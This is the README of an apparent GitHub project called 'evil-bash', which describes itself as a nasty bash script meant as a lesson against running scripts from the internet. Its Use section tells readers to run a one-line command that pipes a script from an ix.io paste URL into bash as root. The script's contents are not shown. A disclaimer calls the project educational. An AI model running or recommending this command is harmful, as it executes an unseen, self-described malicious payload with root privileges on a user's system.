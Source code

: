 # evil-bash
A nasty bash script, used as a lesson on why to never run scripts directly from the internet.

I don't take full credit for this as I was inspired by a user on twitter for this one. 

However, I wanted to see if I could accomplish a similar task but without linking myself to a particular website or service, that had anything higher than basic authentication (username and password). So no sign up pages, no email verification no, personally identifying details being requested. I feel that I accomplished this in theory.

### Use:
Simply retrieve the script and run it from the internet directly like below;  
`su -c 'curl http://ix.io/1iVu.sh | bash'`  
*always append .sh to the url so it fetchs the contents as a shell script*

### Caution:
I am not responsible for the use of this script in any way shape or form. This script was designed as research
and educational purposes only. You've been warned.

### License:
http://www.wtfpl.net/txt/copying/
